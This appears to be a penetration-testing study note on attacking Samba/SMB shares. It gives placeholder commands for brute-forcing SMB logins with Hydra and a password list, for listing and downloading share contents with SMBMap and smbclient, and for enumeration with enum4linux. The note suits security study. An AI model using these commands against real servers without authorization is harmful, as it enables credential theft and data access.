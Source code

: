 # Exploiting Samba
> SMB is the Server Message Block network file sharing protocol that is used to facilitate the sharing of files and peripherals between computers on a LAN. Samba is the Linux implementation of SMB and it allows Windows systems to access Linux shares and devices.

Samba (SMB) Default Port: `445`
- SMB originally ran on top of NetBIOS using port `139` and you can still find machines that run both (for backwards compatibility).

## Contents


## Intro

### Susceptible to Attacks
- Samba is susceptible to the same attacks as Windows.
  - PsExec
  - CrackMapExec
  - MetaSploit module(s)

### Exploiting Samba
- Samba utilizes username and password authentication in order to obtain access to the server or a network share.

#### [Hydra](../../hydra.md)
- We can perform a brute-force attack on the samba server in order to obtain legitimate credentials.
- After obtaining legitimate credentials, we can use a utility called SMBMap

#### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
- Enumerate samba sare drives.
- List the contents of the shares.
- Upload/Download/Execute files.

#### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
- smbclient communicates with a LAN Manager server, offering an interface similar to that of the ftp program.
- It can be used to download files from the server to the local machine.
- It can also upload goodies from the local machine to the target.
- And it can retrieve directory information from the server.

#### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
- Another tool. More information.

## Exploit

### [Hydra](../../hydra.md)
```
hydra -l admin -P /usr/share/.../unix_passwords.txt smb://[target ip]
```
- Brute-force login creds with Hydra.

### [SMBMap](../../04_Enumeration/enum_smb.md#smbmap)
```
smbmap                                        # this will show you usage
smbmap -h [target ip] -u admin -p password1   # this shows you the shares (each with specified perms)
```
- Now... How do you access these shares? With smbclient...

### [smbclient](../../04_Enumeration/enum_smb.md#smbclient)
```
smbclient       # usage
man smbclient   # usage
smbclient -L [target ip] -U admin               # enter... prompted for pwd
smbclient //[target ip]/[share name] -U admin   # enter... prompted for pwd
```
- `-L`  is to List out the shares
  - This should give you pretty much the same info we got from SMBMap
- If successful, you will get a prompt: `smb: \>`
  - Look around in the share to see if there are goodies to download. If not, try the next share.
  - Lather. Rinse. Repeat.
  - To download: `get [filename]`

### [enum4linux](../../04_Enumeration/enum_smb.md#enum4linux)
```
enum4linux -a [target ip]
enum4linux -a -u admin -p password1 [target ip]   
```
- `-a`  All option to enumerate all the crap you can.
- Lots of the same info, but at the bottom it lets you know that the server does not allow null sessions (empty usernames and passwords).
  - If they were allowed, we'd get a butt ton more info from enum4linux
- There's your butt ton of information (comprehensive)
